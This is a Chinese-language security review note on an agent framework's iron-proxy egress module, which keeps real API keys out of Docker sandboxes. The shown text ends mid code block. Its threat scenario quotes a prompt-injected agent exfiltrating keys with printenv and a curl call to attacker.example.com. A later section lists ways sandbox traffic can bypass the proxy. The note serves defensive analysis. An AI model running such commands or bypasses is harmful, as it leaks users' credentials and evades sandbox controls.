

# r9a · 出站流量约束(egress)—— `agent/proxy_sources/iron_proxy.py` 精读底稿

> 底稿定位:证据层,面向"要凭它重实现同等机制"的自己。凡对 hermes-agent 行为的断言,
> 锚点 `路径:行号 @ 863e313` 单独成行、置于代码块之前,块内为基线源码逐字原文。
> 本轮范围:`agent/proxy_sources/iron_proxy.py`(2,494 行)+ `agent/proxy_sources/__init__.py`(8 行),
> 共 2,502 行;为把"出站到底被怎么约束"讲完整,同时取证了它的**唯一消费方** `tools/environments/docker.py`
> 与**唯一 CLI 前端** `hermes_cli/proxy_cli.py`(这两个文件本身不计入本轮范围行数)。

---

## 0. 先正面回答移交项 H-R8D-d

上一轮的移交项原文是:

> **H-R8D-d**(移交 R9):锚点 `agent/proxy_sources/iron_proxy.py`(2,494 行,属 UNCLAIMED)——
> `hermes egress` 的实现本体未读,「出站流量到底被怎么约束」上一轮**没有答案**。

**答案(一句话)**:`hermes egress` **不是**一条"约束出网"的强制通道,它是一条
**默认关闭、只对 Docker 沙箱生效、靠环境变量诱导、靠 TLS 中间人做凭据替换**的
**凭据隔离**通道;它保护的是"真 API key 不落进沙箱",**不是**"沙箱出不了网"。

拆成七问的结论:

| # | 问题 | 结论 |
|---|---|---|
| 1 | CLI → iron_proxy 调用链 | `hermes egress <sub>` → `hermes_cli/main.py` 建 `egress` 子解析器 → `hermes_cli/proxy_cli.register_cli` → `agent.proxy_sources.iron_proxy.*`;进程边界在 `subprocess.Popen([iron-proxy, -config, proxy.yaml])`,守护进程与 Hermes **同机不同进程**,通过 pidfile + nonce 管理 |
| 2 | 「约束」语义 | **可选**。三层开关都要打开(`proxy.enabled`=true → `hermes egress setup` 写过配置 → 守护进程在跑),且**只有 Docker 后端**读它。绕过方式见 §4.3,均可复现 |
| 3 | 策略形状 | **域名 allowlist(默认允许 11 个 host)+ 出站 IP CIDR deny(默认 11 条)+ 每映射的 `require: true`**。对"目的地"是**默认拒绝**(白名单外 403);对"凭据"是**允许但不替换**(白名单内、无映射的 host 直通) |
| 4 | iron_proxy 是什么 | **第三方 Go 二进制 `ironsh/iron-proxy` v0.39.0 的下载器 + 配置生成器 + 进程管家**,本模块 0 行代理逻辑。凭据交给的是**本机同 uid 的这个子进程**,不外发第三方服务 |
| 5 | 失败模式 | 守护进程侧 **fail-closed**(拉不起来就 raise、杀子进程、删 pidfile);Docker 侧由 `proxy.enforce_on_docker`(默认 `True`)决定 fail-closed;设成 `false` 即 **fail-open 且明确写在配置注释里**,是文档化的取舍,不记 ■ |
| 6 | 凭据 | 真 key 只在**宿主机**与 **iron-proxy 子进程环境**里;沙箱里只有 `hermes-proxy-<32hex>` 形式的不透明 token。CLI 默认脱敏(`前12…后4`),`--show-tokens` 明文并给警告 |
| 7 | 与 R7B 的 relay/tunnel | **完全不同的东西**。iron-proxy = **出站**、沙箱→provider、凭据替换;`gateway/relay/` = **入站**、外部平台→gateway 的 WebSocket 连接器;`hermes proxy`(`hermes_cli/proxy/`)= **入站**、外部 app→本机 OAuth 聚合反代。见 §9 |

本轮另有 **2 个 ■(代码缺陷)**、**3 个 ▲(文档与代码矛盾)**、**2 个 ◇**、**1 个 ◎**,见 §10。

---

## 1. 从一个场景说起

设想操作员在笔记本上开了 Docker 终端沙箱,让 agent 装依赖。沙箱里的 agent 被 prompt 注入,
执行了 `printenv | grep -i key`。

**没有 egress 时**,它读到 `OPENROUTER_API_KEY=sk-or-v1-<真值>`,再 `curl https://attacker.example.com/?k=$OPENROUTER_API_KEY`,
key 就没了。这正是模块自己写下的动机。

`agent/proxy_sources/iron_proxy.py:6 @ 863e313`

```
Remote terminal sandboxes (Docker, Modal, SSH) currently see real upstream
API credentials.  A prompt-injected agent inside one of these sandboxes can
``cat ~/.config/openrouter/auth.json`` or ``printenv | grep -i key`` and
exfiltrate them.
```

**开了 egress 之后**,同一条 `printenv` 读到的是 `OPENROUTER_API_KEY=openrouter-9f3a…`——一个 32 位十六进制的
不透明 token。`curl https://attacker.example.com/...` 走 `HTTPS_PROXY` 到本机 iron-proxy,
`attacker.example.com` 不在 allowlist,被 403 掉;而 `curl https://openrouter.ai/...` 被放行,
iron-proxy 用自签 CA 现签一张 `openrouter.ai` 叶证书、终止 TLS、把 `Authorization` 里的 token
换成真 key、再重新加密发给 OpenRouter。

模块开头把这个"边界"以及它的**前提条件**写得很老实:

`agent/proxy_sources/iron_proxy.py:11 @ 863e313`

```
iron-proxy is a TLS-intercepting egress firewall (Apache-2.0, Go binary, by
ironsh).  It sits between the sandbox and the internet, enforces a default-deny
allowlist on outbound hosts, and *swaps proxy tokens for real credentials*
on the way out.  The sandbox only ever holds opaque proxy tokens — leaking
them is useless, since they only work behind the configured trusted proxy
boundary (the CA private key and proxy endpoint integrity are part of that
boundary: if traffic can be redirected to attacker-controlled proxy
infrastructure, the guarantee no longer holds).
```

**注意这句话的真正强度**:token"没用"的前提是**流量确实到达了我们这个 iron-proxy**。
而"到达"靠的是沙箱里的 `HTTPS_PROXY` 环境变量——一个进程可以不看它。§4.3 会把这条讲透。

`agent/proxy_sources/__init__.py:1 @ 863e313`

```
"""Egress proxy integrations.

Currently ships an iron-proxy (ironsh/iron-proxy) wrapper that intercepts
outbound traffic from remote terminal sandboxes and swaps proxy tokens
for real upstream credentials at the network edge.

Design notes live in :mod:`agent.proxy_sources.iron_proxy`.
"""
```

这 8 行是整个包的全部内容——`__init__.py` 只有 docstring,没有任何 re-export,
所以**唯一进入本子系统的路径就是直接 `from agent.proxy_sources import iron_proxy`**。

---

## 2. 调用链全图



### 2.1 CLI 入口(逐段取证)

顶层子命令在 `hermes_cli/main.py` 注册,并且注释直接点出它和同名的入站 `hermes proxy` 是两件事:

`hermes_cli/main.py:11342 @ 863e313`

```
    # NOTE: this is the OUTBOUND egress firewall (ironsh/iron-proxy).
    # `hermes proxy` (defined elsewhere in this file) is a separate INBOUND
    # OAuth-aggregator reverse proxy.  Different direction, different purpose.
    egress_parser = subparsers.add_parser(
        "egress",
        help="Manage the iron-proxy egress credential-injection firewall",
```

子命令树由 `proxy_cli.register_cli()` 挂上去,并用 `dest="egress_command"` 与入站 `proxy` 隔离:

`hermes_cli/main.py:11356 @ 863e313`

```
    from hermes_cli import proxy_cli as _proxy_cli
    _proxy_cli.register_cli(egress_parser)
```

`hermes_cli/proxy_cli.py:43 @ 863e313`

```
    # dest='egress_command' — keeps this subparser tree disjoint from the
    # inbound OAuth ``hermes proxy`` subparser (which uses dest='proxy_command').
    # No runtime collision today since they live in separate parser trees,
    # but a future grep-and-refactor on ``proxy_command`` would otherwise
    # hit both handlers.
    sub = parent_parser.add_subparsers(dest="egress_command")
```

`proxy_cli` 只 import 核心模块这一次,别名 `ip`:

`hermes_cli/proxy_cli.py:27 @ 863e313`

```
from agent.proxy_sources import iron_proxy as ip
from hermes_cli.config import load_config, save_config
```

**实际存在的 9 个子命令**(`register_cli` 里逐个 `add_parser`):
`install` / `setup` / `start` / `stop` / `restart` / `reload` / `status` / `disable` / `config`。

另有一个**只读**入口:交互式 CLI 的 `/egress` 斜杠命令。

`cli.py:10112 @ 863e313`

```
        elif canonical == "egress":
            from hermes_cli.slash_exec import CommandContext, execute_command

            self._console_print(
                execute_command("egress", CommandContext(surface="cli")).text,
                highlight=False, markup=False,
            )
```

`hermes_cli/slash_exec.py:76 @ 863e313`

```
def _exec_egress(ctx: CommandContext) -> CommandReply:
    """Core /egress text — Docker egress proxy status."""
    from hermes_cli.proxy_cli import format_status_text

    return CommandReply(format_status_text())
```

同一个 `format_status_text` 还被 `gateway/run.py:14180`、`gateway/run.py:15100`、
`hermes_cli/web_server.py:6150` 复用——**四个面同一份文本**,且**全是只读**:
没有任何一处从 gateway / web / 斜杠命令去 `start_proxy`。

### 2.2 参数怎么传到子进程

`start_proxy` 里唯一的进程边界:

`agent/proxy_sources/iron_proxy.py:1877 @ 863e313`

```
        proc = subprocess.Popen(  # noqa: S603 — binary path is trusted
            [str(bin_path), "-config", str(cfg)],
            **popen_kwargs,
        )
```

也就是说 **argv 只有两个参数**:`-config <~/.hermes/proxy/proxy.yaml>`。
所有策略(allowlist、deny CIDR、token 映射、监听地址、管理 API)都在 YAML 里,
**真凭据不在 YAML 里**——YAML 只写"去读哪个环境变量名":

`agent/proxy_sources/iron_proxy.py:1155 @ 863e313`

```
    secrets_rules = []
    for m in mappings:
        match_headers = list(m.match_headers or ("Authorization",))
        secrets_rules.append({
            "source": {"type": "env", "var": m.real_env_name},
            "replace": {
                "proxy_value": m.proxy_token,
```

Popen 的其余 kwargs 决定了它是个**脱离终端的守护进程**、**stdout/stderr 全部落到 0600 日志**:

`agent/proxy_sources/iron_proxy.py:1869 @ 863e313`

```
        popen_kwargs: Dict = dict(
            env=env,
            stdin=subprocess.DEVNULL,
            stdout=log_fd,
            stderr=subprocess.STDOUT,
        )
        if platform.system() != "Windows":
            popen_kwargs["start_new_session"] = True
```

### 2.3 Docker 后端怎么接上

`tools/environments/docker.py:393 @ 863e313`

```
def _egress_proxy_args_for_docker() -> tuple[list[str], dict[str, str], list[str]]:
    """Build the docker mount/env/host args needed to route a sandbox through
    the iron-proxy egress firewall.
```

它在容器创建路径上被调用一次:

`tools/environments/docker.py:1070 @ 863e313`

```
        # Egress credential-injection proxy (iron-proxy) — when configured,
        # mount the CA cert into the sandbox and set HTTPS_PROXY + CA-bundle
        # env vars so outbound traffic routes through the host-side proxy.
        # The sandbox receives PROXY tokens instead of real API keys.
        egress_volume_args, egress_env_overrides, egress_host_args = (
            _egress_proxy_args_for_docker()
        )
```

产物是三样东西(挂载 / 环境变量 / `--add-host`):

`tools/environments/docker.py:487 @ 863e313`

```
    container_ca = "/etc/ssl/certs/hermes-egress-ca.crt"
    volume_args = ["-v", f"{status.ca_cert_path}:{container_ca}:ro"]

    # tunnel_port serves CONNECT (HTTPS); the plain-HTTP forward listener
    # is on tunnel_port + 1 (see build_proxy_config's listener-role notes).
    proxy_url = f"http://host.docker.internal:{status.tunnel_port}"
    plain_http_url = f"http://host.docker.internal:{status.tunnel_port + 1}"
```

沙箱拿到的"provider key"就是 token 本身(SDK 无需改代码):

`tools/environments/docker.py:540 @ 863e313`

```
    for m in mappings:
        env_overrides[m.real_env_name] = m.proxy_token
        env_overrides[f"HERMES_PROXY_TOKEN_{m.real_env_name}"] = m.proxy_token
        for alias in getattr(m, "alias_env_names", ()) or ():
            env_overrides[alias] = m.proxy_token
```

---

## 3. iron_proxy 是什么(第 4 问的明确判定)

**判定:它是第三方 Go 二进制 `ironsh/iron-proxy` 的下载器 + 配置生成器 + 进程管家。
本模块自身不含任何代理/转发/TLS 逻辑。凭据交给的是本机同 uid 的这个子进程,不外发任何第三方服务。**

依据一:版本被**钉死**,发布地址是 GitHub Releases。

`agent/proxy_sources/iron_proxy.py:87 @ 863e313`

```
# Pinned upstream version.  Bump in a follow-up PR — never auto-resolve "latest"
# because upstream YAML schema is allowed to change between releases and we
# want updates to be deliberate.
_IRON_PROXY_VERSION = "0.39.0"

_IRON_PROXY_RELEASE_BASE = (
    f"https://github.com/ironsh/iron-proxy/releases/download/v{_IRON_PROXY_VERSION}"
)
```

依据二:模块自己声明"故意做成 subprocess 驱动,不做 Python 绑定"。

`agent/proxy_sources/iron_proxy.py:52 @ 863e313`

```
This module is intentionally subprocess-driven rather than depending on any
iron-proxy Python bindings — a single cross-platform binary is easier to
lazy-install than a wheels-with-extension dependency, and we keep maintenance
to a "bump the pinned version" loop.
```

依据三(搜索面):在 `agent/proxy_sources/iron_proxy.py` 全文里,
`socket` 只出现在 `_port_listening` 的存活探测(`socket.create_connection`),
`urllib.request` 只出现在**下载二进制**(`_http_download`)与**打管理 API**(`reload_proxy`)。
没有任何转发/中继代码。

**R11C 片 C 改:原块是一段 `$` 提示符**转录**(命令、输出、逐条判读混排在同一个 ```verify 围栏里),原样重跑等于把输出行也当命令执行。下面拆成「可重跑命令 + 逐字输出」两块,
逐条判读移到块后正文。**命中集合与原块一致,结论未变。**

```verify
# 搜索面:本模块内所有网络相关调用点
cd /home/user/hermes-agent && grep -nE "socket\.|urllib\.request\.|http\.client|asyncio|aiohttp|requests\." \
      agent/proxy_sources/iron_proxy.py
```

```text
217:    # AWS Bedrock / SageMaker: SigV4-signed requests.
550:    req = urllib.request.Request(url, headers={"User-Agent": "hermes-agent"})
552:        with urllib.request.urlopen(req, timeout=_DOWNLOAD_TIMEOUT) as resp:  # noqa: S310
952:    req = urllib.request.Request(
959:        with urllib.request.urlopen(req, timeout=_MGMT_RELOAD_TIMEOUT) as resp:
1483:        # each other's requests.  The canonical env name is what
2431:        with socket.create_connection((host, port), timeout=0.5):
```

逐条判读:**217 / 1483 是散文里的 "requests." 被 `requests\.` 匹到** —— 误命中,
与 §4.2 记的 "regress 含 egress" 同类,保留在这里正是为了让读者看见它、不必猜;
550 / 552 是 `_http_download`(下载二进制);952 / 959 是 `reload_proxy`(打 loopback 管理 API);
2431 是 `_port_listening`(TCP 存活探测)。
**没有任何转发/中继代码 —— 代理逻辑 100% 在第三方 Go 二进制里。**

**所以"出网约束"在这里是安全机制还是转发机制?——两者都是,但主体是"本机安全机制"**:
真凭据从不离开本机(宿主机 env → iron-proxy 子进程 env → 直连 provider),
中间没有任何第三方托管服务。这一点与"把流量交给某个云端代理服务"是根本不同的信任模型。

### 3.1 供应链侧的两道校验

下载后先验 GPG 签名(尽力而为),再验 SHA-256(强制):

`agent/proxy_sources/iron_proxy.py:502 @ 863e313`

```
        expected = _expected_sha256(checksum_path, asset_name)
        actual = _sha256_file(archive_path)
        if expected.lower() != actual.lower():
            raise RuntimeError(
                f"Checksum mismatch for {asset_name}: "
                f"expected {expected}, got {actual}"
            )
```

GPG 的取舍写得很清楚:**缺 gpg / 缺签名资产 → 降级(只留 SHA-256);签名存在但验不过 → 硬失败**。

`agent/proxy_sources/iron_proxy.py:621 @ 863e313`

```
    if verify.returncode != 0:
        # A present signature that does NOT verify is a tamper signal — fail hard.
        raise RuntimeError(
            "iron-proxy checksums.txt failed GPG signature verification — "
            "refusing to install (possible release-channel tampering). "
            f"gpg: {verify.stderr.decode('utf-8', 'replace')[:300]}"
        )
```

**◇(代码有、文档无)#1**:用户文档 `website/docs/user-guide/egress/iron-proxy.md:427` 只说
"SHA-256 verified against the upstream `checksums.txt`",**GPG 发布签名校验这一层两份 egress 文档都没提**。
搜索面(实跑,退出码 1 = 零命中):

```verify
$ cd /home/user/hermes-agent
$ grep -niE "\bgpg\b|checksums\.txt\.asc|public-key\.asc|release-channel|tamper" \
      website/docs/user-guide/egress/iron-proxy.md \
      website/docs/developer-guide/egress-internals.md
$ echo "exit=$?"
exit=1
# 注:放宽成 grep -niE "gpg|signature|签名|public-key" 会命中 3 行,但那 3 行讲的都是
# provider 侧的 "signature-based auth"(SigV4 / service-account OAuth),
# 与本节说的"发布通道签名校验"无关 —— 这就是为什么上面的模式要写得这么窄。
```

解包用 PEP 706 data filter,并在 filter 不可用时靠自己的成员名净化兜底:

`agent/proxy_sources/iron_proxy.py:510 @ 863e313`

```
        with tarfile.open(archive_path, "r:gz") as tf:
            member = _pick_tar_member(tf, _platform_binary_name())
```

`agent/proxy_sources/iron_proxy.py:665 @ 863e313`

```
        if member.name.startswith("/") or ".." in Path(member.name).parts:
            continue
```

---

## 4. 「约束」的确切语义(本文最重要的判定)

### 4.1 三层开关,任何一层没开就是**完全无约束**

**第一层:`proxy.enabled`,默认 `False`。**

`hermes_cli/config_defaults.py:3015 @ 863e313`

```
    "proxy": {
        # Master switch.  When false, iron-proxy is never started, no docker
        # mounts are added, no binaries are auto-installed — feature is a
        # complete no-op.
        "enabled": False,
```

Docker 侧第一件事就是查它,`False` 直接返回三个空容器:

`tools/environments/docker.py:426 @ 863e313`

```
    cfg = load_config()
    proxy_cfg = cfg.get("proxy") or {}
    if not proxy_cfg.get("enabled"):
        return ([], {}, [])
```

**第二层:必须跑过 `hermes egress setup`**(要有 `proxy.yaml` + `ca.crt`)。
**第三层:守护进程必须在跑且在监听。**

`tools/environments/docker.py:444 @ 863e313`

```
    if not (status.pid and status.listening):
        msg = (
            f"iron-proxy is enabled but not running on port {status.tunnel_port}. "
            "Start it with `hermes egress start`."
        )
        if enforce:
            raise RuntimeError(msg)
        logger.warning("%s — continuing without proxy (enforce_on_docker=false).", msg)
        return ([], {}, [])
```

`configured` 的判定就是这两个文件都在:

`agent/proxy_sources/iron_proxy.py:317 @ 863e313`

```
    @property
    def configured(self) -> bool:
        return (
            self.config_path is not None
            and self.config_path.exists()
            and self.ca_cert_path is not None
            and self.ca_cert_path.exists()
        )
```

**没有任何自动启动路径。** 搜索面:`grep -rn "start_proxy" --include=*.py .`(排除 `tests/`
与模块自身)的全部命中只有 `hermes_cli/proxy_cli.py:503`(`cmd_setup` 里询问后重启)
和 `:642`(`cmd_start`)。也就是说 `start_proxy` **只在操作员手敲 `hermes egress setup/start` 时**被调用;
agent 启动、gateway 启动、容器创建这三条路径**都不会**把它拉起来。

### 4.2 只有 Docker 后端读它(全称否定 + 搜索面)

**负结论:除 `tools/environments/docker.py` 外,`tools/environments/` 下没有任何后端接入 iron-proxy;
仓库里也没有第二个非测试消费方。**

搜索面(逐条给出,可零成本重跑):

**R11C 片 C 改:原块是一段 `$` 提示符**转录**(命令、输出、逐条判读混排在同一个 ```verify 围栏里),原样重跑等于把输出行也当命令执行。下面拆成「可重跑命令 + 逐字输出」两块,
逐条判读移到块后正文。**命中集合与原块一致,结论未变。**

```verify
cd /home/user/hermes-agent
# (A) 谁 import 了这个包 —— 全仓 *.py,排除包自身
grep -rn "proxy_sources" --include=*.py . | grep -v '^\./agent/proxy_sources/' | sort
# (B) 逐个后端文件查 egress 接线(词边界!见下方陷阱说明)
grep -rlnE "\begress\b|iron-proxy|iron_proxy|HTTPS_PROXY|hermes-egress-ca" tools/environments/*.py
# (C) 非 Python 面(前端/桌面/脚本/Dockerfile)
grep -rlniE "iron.?proxy|hermes-egress-ca|HERMES_EGRESS_PROXY" \
      --include=*.ts --include=*.tsx --include=*.js --include=*.mjs \
      --include=*.rs --include=*.go --include=*.sh --include=Dockerfile . | sort
```

```text
./hermes_cli/proxy_cli.py:27:from agent.proxy_sources import iron_proxy as ip
./tests/test_iron_proxy.py:25:from agent.proxy_sources import iron_proxy as ip
./tests/test_iron_proxy_cli.py:19:from agent.proxy_sources import iron_proxy as ip
./tests/test_iron_proxy_e2e.py:25:from agent.proxy_sources import iron_proxy as ip
./tools/environments/docker.py:1154:                from agent.proxy_sources import iron_proxy as _ip_for_mappings
./tools/environments/docker.py:421:        from agent.proxy_sources import iron_proxy as ip
tools/environments/docker.py
./apps/desktop/src/app/command-palette/index.tsx
./website/sidebars.ts
```

(A) 六处 import,其中三处在 `tests/`;(B) 后端文件里**只有 `docker.py` 接了 egress**;
(C) 非 Python 面两处命中都不是接线:`command-palette/index.tsx` **只是命令面板关键词**,
`website/sidebars.ts` **只是文档侧边栏条目**。
(原块 (A)(C) 两段按目录遍历序,这里补 `| sort` 让输出可稳定比对,集合一致。)

`tools/environments/` 下现有 11 个后端实现文件(`base.py` `local.py` `docker.py` `modal.py`
`managed_modal.py` `ssh.py` `daytona.py` `singularity.py` `vercel_sandbox.py` `file_sync.py`
`modal_utils.py`),(B) 只命中 `docker.py` 一个。

> **搜索面的一个陷阱,必须记下**:若把 (B) 写成 `grep -i "egress"`(不加 `\b`),
> `tools/environments/local.py:215` 会命中——因为该行是
> `# those vars would (a) r`**`egress`** ` every user who runs aws/terraform/cdk/boto3 in`,
> "r**egress**" 里含 "egress"。这与 CLAUDE.md 记的 r4-90 用 `iron` 匹配到 `env`**`iron`**`ment`
> 是同一类错误。**本条负结论的可信度就等于上面这个词边界写对了。**

### 4.3 绕过清单:哪些出站**不经过**这条路

这一节是本文对"强制还是可选"的实质回答。按"离得越近越危险"排列:

**(a) 宿主机自己的所有出站,全部不经过。**
Hermes 主进程调 LLM、`web_search`、`fetch`、gateway 连各平台——一律直连。
`_egress_proxy_args_for_docker` 的产物只进 `docker run` 的 argv,不改宿主机 `os.environ`。
文档对这点是**诚实**的:

`website/docs/user-guide/egress/iron-proxy.md:22 @ 863e313`

> - It does **not** rewrite credentials for in-process LLM calls the host process makes. Those continue to use your `.env` keys directly. The threat model is the *sandbox*, not the host.

**(b) 除 Docker 外的所有沙箱后端,全部不经过。** 见 §4.2 的搜索面。文档同样诚实:

`website/docs/user-guide/egress/iron-proxy.md:7 @ 863e313`

> This release wires the egress proxy into the Docker backend only. Modal, Daytona, SSH, and Singularity do **not** receive proxy env vars or CA mounts yet.

`hermes_cli/setup.py:1399 @ 863e313`

```
        print_info(
            "   Docker only for now; Modal, SSH, Daytona, and Singularity are not wired yet."
        )
```

**(c) 沙箱内不看 `HTTPS_PROXY` 的进程,不经过。**
这是机制层面的天花板:约束是**环境变量诱导**,不是 netns/iptables 强制。
容器里没有任何网络层封堵(`--network=none` 是另一条无关的开关,见 `tools/environments/docker.py:923`,
且它一旦生效就连 iron-proxy 也连不上)。一个 `socket.create_connection(("api.openai.com", 443))`
直接绕过整条链路。文档在"What it does NOT protect against"下明确承认:

`website/docs/user-guide/egress/iron-proxy.md:419 @ 863e313`

> - Sandbox processes that bypass `HTTPS_PROXY` by using a raw socket. The proxy can't intercept what doesn't route to it. Node.js is partially mitigated via `NODE_OPTIONS=--use-openssl-ca` (see caveat above).

> **判定说明**:文档第 5 行有一句"All outbound traffic from the sandbox routes through a local
> iron-proxy daemon"。按项目制度"必须把整句/整段一并判定,并确认它归哪个标题管"——
> 该句在文首概述(无小标题)下,而同一文档 `## Security model` → **What it does NOT protect against**
> 下第 419 行原样给出了反例。**文档自身已把这条限制写在了正确的标题下,故不记 ▲**;
> 但它确实说明:读者若只读文首会高估强度。

**(d) `NO_PROXY` 覆盖的目标,不经过(设计如此)。**

`tools/environments/docker.py:502 @ 863e313`

```
        # Loopback-only NO_PROXY so localhost dev servers inside the sandbox
        # (test fixtures, local LLMs) don't get sent through the proxy.
        "NO_PROXY": "127.0.0.1,localhost,::1",
        "no_proxy": "127.0.0.1,localhost,::1",
```

**(e) allowlist 内但**没有** secrets 规则的 host,经过但不做凭据替换(直通)。**
`build_proxy_config` 里,allowlist 是"默认 11 个 host **加上**每个映射的 host":

`agent/proxy_sources/iron_proxy.py:1149 @ 863e313`

```
    hosts: List[str] = list(allowed_hosts or _DEFAULT_ALLOWED_HOSTS)
    for m in mappings:
        for h in m.upstream_hosts:
            if h not in hosts:
                hosts.append(h)
```

而 `secrets` 规则**只**来自 `mappings`(见 §2.2 的 1155 行块)。两者**不是同一个集合**:
默认 11 个 host 无条件进 allowlist,即使一个映射都没有。所以

> **allowlist ⊋ {有 secrets 规则的 host}**,差集里的 host 是"允许出网、不检查凭据"。

这在正常配置下无害(沙箱本来就没有真 key),但和 §10 的 ■1 组合起来就会变成一条真实泄漏路径。

**(f) `enforce_on_docker: false` 时,上面所有失败分支都退化为"直接放行 + 一条 warning"。** 见 §7。

**(g) `docker_extra_args` 里操作员自己塞的 `-e HTTPS_PROXY=...` / `--env-file` / `--network`。**
代码里有专门的碰撞检测(`_extra_args_egress_collisions`,`tools/environments/docker.py:601`),
enforce 开时会拒绝;enforce 关时只是 warning。

### 4.4 沙箱侧"信任 CA"的非对称——一个已知残缺

Python/curl 的 CA 变量是**替换**系统信任库,Node 的是**追加**。追加意味着:
Node 进程即使不走代理、直连 provider,系统 CA 仍然认证书,握手成功。

`tools/environments/docker.py:509 @ 863e313`

```
        # CRITICAL ASYMMETRY: Python (REQUESTS_CA_BUNDLE / SSL_CERT_FILE)
        # and curl (CURL_CA_BUNDLE) REPLACE the system CA store.
        # NODE_EXTRA_CA_CERTS ADDS to it.  A Node.js process that
        # bypasses HTTPS_PROXY by using a raw socket would still see the
        # system CA store and succeed where Python/curl fail validation.
```

缓解手段是往 `NODE_OPTIONS` 里**追加**(而不是覆盖)`--use-openssl-ca`,并且先剔除冲突的 CA 模式旗标:

`tools/environments/docker.py:1237 @ 863e313`

```
            _CA_MODE_FLAGS = {"--use-openssl-ca", "--use-bundled-ca"}
            append_token = _egress_node_append.strip()
            if append_token in _CA_MODE_FLAGS:
                dropped = [t for t in existing_tokens if t in _CA_MODE_FLAGS and t != append_token]
```

**这条"替换 vs 追加"的非对称值得单独记住**:任何靠环境变量做 TLS 拦截的设计,
都要逐运行时确认它的 CA 变量语义是 replace 还是 add,否则"我把 CA 发下去了"给出的是虚假的安心感。

---

## 5. 策略形状:允许/拒绝依据什么

生成的 `proxy.yaml` 里,策略分布在**三处**,判据各不相同。

### 5.1 目的地域名:allowlist(默认允许 11 个)

`agent/proxy_sources/iron_proxy.py:131 @ 863e313`

```
# Hosts allowed by default for AI inference traffic.  Anything else is 403'd.
_DEFAULT_ALLOWED_HOSTS: Tuple[str, ...] = (
    "openrouter.ai",
    "*.openrouter.ai",
    "api.openai.com",
    "api.anthropic.com",
    "generativelanguage.googleapis.com",
    "api.x.ai",
    "api.mistral.ai",
    "api.groq.com",
    "api.together.xyz",
    "api.deepseek.com",
    "inference.nousresearch.com",
)
```

落到 transform 里:

`agent/proxy_sources/iron_proxy.py:1307 @ 863e313`

```
        "transforms": [
            {
                "name": "allowlist",
                "config": {"domains": hosts},
            },
            {
                "name": "secrets",
                "config": {"secrets": secrets_rules},
            },
        ],
```

**判据是域名(支持 `*.` 通配),不是 IP,不是端口。** 对"目的地"这一维是**默认拒绝**。
操作员扩容的口子是 `proxy.extra_allowed_hosts`,在 `cmd_setup` 里与默认集合并:

`hermes_cli/proxy_cli.py:386 @ 863e313`

```
    extra_hosts = list(proxy_cfg.get("extra_allowed_hosts") or [])
    allowed = list(ip._DEFAULT_ALLOWED_HOSTS) + [
        h for h in extra_hosts if h not in ip._DEFAULT_ALLOWED_HOSTS
    ]
```

**注意:`_DEFAULT_ALLOWED_HOSTS` 无法被关掉。** `build_proxy_config(allowed_hosts=...)` 的
默认参数是 `None`,而 `cmd_setup` **永远**传入"默认 11 个 + extra";要收窄只能绕过 CLI 直接调 API
(测试就是这么做的)。所以"默认拒绝"实际是"默认放行这 11 个 AI 推理域名 + 拒绝其余"。

### 5.2 出站 IP:deny CIDR(默认 11 条,防 SSRF/IMDS)

`agent/proxy_sources/iron_proxy.py:226 @ 863e313`

```
# Default SSRF-protection deny list applied to the proxy's outbound traffic.
# Mirrors the public docs promise ("cloud metadata IPs are refused by default
# regardless of allowlist").  Tests / dev setups that need loopback can pass
# an explicit override (e.g. [] to disable, or a smaller subset).
_DEFAULT_UPSTREAM_DENY_CIDRS: Tuple[str, ...] = (
    "127.0.0.0/8",        # IPv4 loopback
    "::1/128",            # IPv6 loopback
    "169.254.0.0/16",     # IPv4 link-local incl. AWS/GCP/Azure IMDS
    "fe80::/10",          # IPv6 link-local
    "10.0.0.0/8",         # RFC1918
    "172.16.0.0/12",      # RFC1918
    "192.168.0.0/16",     # RFC1918
    "fc00::/7",           # IPv6 ULA
```

其中 `::ffff:0:0/96` 一条把 IPv4-mapped-IPv6 这条双栈绕路也堵上,注释解释得很到位:

`agent/proxy_sources/iron_proxy.py:239 @ 863e313`

```
    # IPv4-mapped IPv6 (``::ffff:0:0/96``) covers the dual-stack case
    # where an upstream resolves to e.g. ``::ffff:169.254.169.254`` and
    # the kernel hands the v4-mapped form to the socket — that would
    # otherwise be a clean SSRF bypass to IMDS through the v6 path.
    "::ffff:0:0/96",
```

三态语义(`None` = 用默认;`[]` = 完全关闭;列表 = 覆盖)在代码里是显式的:

`agent/proxy_sources/iron_proxy.py:1190 @ 863e313`

```
    # SSRF protection: default-deny cloud metadata + loopback + RFC1918.
    # Callers can pass [] to opt out entirely (hermetic tests need this for
    # talking to a loopback upstream).  None means "use the default".
    deny_cidrs: List[str]
    if upstream_deny_cidrs is None:
        deny_cidrs = list(_DEFAULT_UPSTREAM_DENY_CIDRS)
    else:
        deny_cidrs = list(upstream_deny_cidrs)
```

**这一维是 IP/CIDR 判据,且在 connect 时判、不在 allowlist 时判**——所以
"allowlist 里的域名被 DNS rebinding 指向 169.254.169.254"这条攻击被堵住。

### 5.3 凭据:每映射 `require: true`(host 级 fail-closed)

`agent/proxy_sources/iron_proxy.py:1176 @ 863e313`

```
                # Fail closed (maxpetrusenko P1): when a request reaches an
                # allowlisted upstream WITHOUT the proxy token present in a
